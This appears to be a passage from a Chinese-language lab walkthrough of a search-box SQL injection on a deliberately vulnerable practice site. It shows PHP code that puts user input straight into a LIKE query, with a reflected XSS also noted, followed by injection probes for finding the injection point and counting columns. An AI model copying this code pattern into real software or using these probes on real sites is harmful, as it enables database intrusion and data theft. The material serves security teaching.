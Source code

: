 ## 查看关键源码

```php
$link=connect();$html1='';$html2='';if(isset($_GET['submit']) && $_GET['name']!=null){    //这里没有做任何处理，直接拼到select里面去了    $name=$_GET['name'];    //这里的变量是模糊匹配，需要考虑闭合    $query="select username,id,email from member where username like '%$name%'";    $result=execute($link, $query);    if(mysqli_num_rows($result)>=1){        //彩蛋:这里还有个xss        $html2.="<p class='notice'>用户名中含有{$_GET['name']}的结果如下：<br />";        while($data=mysqli_fetch_assoc($result)){            $uname=$data['username'];            $id=$data['id'];            $email=$data['email'];            $html1.="<p class='notice'>username：{$uname}<br />uid:{$id} <br />email is: {$email}</p>";        }    }else{        $html1.="<p class='notice'>0o。..没有搜索到你输入的信息！</p>";    }}
```



通过代码可看到这里依然是没有做任何处理，直接拼到select里面去了,形成Sql注入，不过这里有一个闭合的问题。



## 实战

判断注入点，输入

```plain
XMTX'     报错XMTX'--   成功
```



说明存在注入

![img](../../_img/05-SQL%E6%B3%A8%E5%85%A5/1655882397993-cb2903cd-9ebb-44ca-80c5-b54f0e174b83.png)



查看字段数，输入

```plain
XMTX' order by 3--   成功 XMTX' order by 4--   报错
```
